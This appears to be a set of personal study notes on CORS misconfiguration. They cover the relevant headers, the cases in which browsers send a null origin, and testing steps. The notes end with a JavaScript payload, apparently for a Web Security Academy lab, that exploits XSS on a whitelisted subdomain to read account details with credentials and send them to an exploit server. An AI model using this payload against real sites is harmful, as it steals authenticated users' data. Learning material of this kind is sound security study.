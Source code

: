 # What is CORS?

Cross-Origin-Resource-Sharing(CORS) is a browser functionality to allow controlled access to load third party resources other than its web application domain. It extends functionality to Same-origin policy which is used to restrict access.
However, if misconfigured, it gives potential for cross domain attacks.

This is usually controlled at the client or browser side, but its primarily a server side misconfiguration as CORS restrictions are imposed by the server and the client merely enforces this by allowing or dropping requests.

Access-Control-Allow-Origin

Access-Control-Allow-Credentials

<img width="766" alt="image" src="https://github.com/user-attachments/assets/2b4153ce-6b5b-40e3-8451-a33b61e52731" />


Some caveats that i realised, victim needs to have a valid browser session that is authenticated for CORS to work.

# Cross Origin Null Requests

Origin header accepts the null value, we can test if the Access-Control-Allow-Origin allows it.

![image](https://github.com/user-attachments/assets/5ac0b179-7557-4293-b373-138a5882ba25)


Specific instances where browser sends a origin header with a null value:

1. sandbox Attribute on iframes
When an iframe is created with the sandbox attribute, its origin is set to null unless specific permissions (e.g., allow-same-origin) are granted.

```html
<iframe sandbox="allow-scripts" src="https://example.com"></iframe>
```

2.Serving from data: or blob: URLs
When content is served from a data: or blob: URL, the origin is null because these URLs are not associated with a specific domain.

3. Local File Access (file://)
When a resource is accessed via the file:// protocol, the browser sets the origin to null.

4. Cross-Origin Redirect to a Non-Originating Context
If a redirect leads to a cross-origin request where the destination does not have a valid origin, the browser may set Origin: null.

> [!NOTE]
> if using script such as XMLHttpRequest.setRequestHeader('Origin', 'null'), security policy on browser will strip this unless explicitly enforced.


#Testing for CORS Misconfigurations

1.Test for arbitary domains in origin header
2.Test for NULL value in origin header
3.Test for whitelisted subdomains in origin header
![image](https://github.com/user-attachments/assets/ed89e41e-45cd-48ae-a4a7-f6d2278399a8)



# Exploiting CORS using XSS on a vulnerable subdomain

It is possible to gain access and exploit CORS using whitelisted subdomains that has a XSS vulnerability.
We can inject this piece of script into the parameter that is vulnerable to XSS.

```javascript
var xhr = new XMLHttpRequest();
var url = 'https://0a930083040d040085e42c78009b0058.web-security-academy.net/accountDetails';
xhr.onload = reqListener;
xhr.open('GET', url);
xhr.withCredentials = true;
xhr.send();

function reqListener(){
location='https://exploit-0a4500930461042e85ef2bd701a9004c.exploit-server.net/exploit?key=' + xhr.responseText;
};
```



